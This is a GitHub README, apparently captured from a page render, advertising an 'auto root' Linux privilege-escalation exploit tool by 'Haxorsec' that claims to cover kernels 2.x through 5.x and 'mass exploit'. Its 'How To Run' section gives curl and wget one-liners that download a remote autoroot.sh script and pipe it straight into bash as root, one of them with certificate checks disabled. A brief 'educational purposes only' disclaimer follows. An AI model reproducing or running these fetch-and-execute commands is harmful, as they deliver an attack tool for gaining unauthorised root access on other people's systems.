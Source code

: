 
<div align="center"><h1>Auto Root / Privilege Escalation Exploit By Haxorsec</h1></h1></div>
<br>

<div align="center">
  
![licence](https://img.shields.io/badge/LICENE-GPL2.0-ebcb8b?style=flat-square)
![version](https://img.shields.io/badge/VERSION-1.0.2-a3be8c?style=flat-square)
  
 </div>
<br>

<div align="center"><h1>Support & Features</h1></div>

<samp>
* Kernel 2x
  
* Kernel 3x
  
* Kernel 4x
  
* Kernel 5x
  
* TOP Exploit root
  
* All Mass Exploit

</samp>
<div align="center"><h1>How To Run ?</h1></div>


<div align="center"><h1>Curl</h1></div>

```
root@HaxorSec:~# bash -c "$(curl -fsSL https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.sh -k)"	
```

<div align="center"><h1>Wget</h1></div>

```

root@HaxorSec:~# bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.sh)"
``

<div align="center"><h1>Read this</h1></div>

<samp>

OpenSource Project By Haxorsec


<div align="center">
<img src="https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.png">  
</div>


<div align="center">
 <h1> Contact Me : </h1>
<a href="https://t.me/ntKiL22"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white" /></a>
</div>

</samp>

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository will not hold the author responsible.
Do not pentest without explicit permissions.
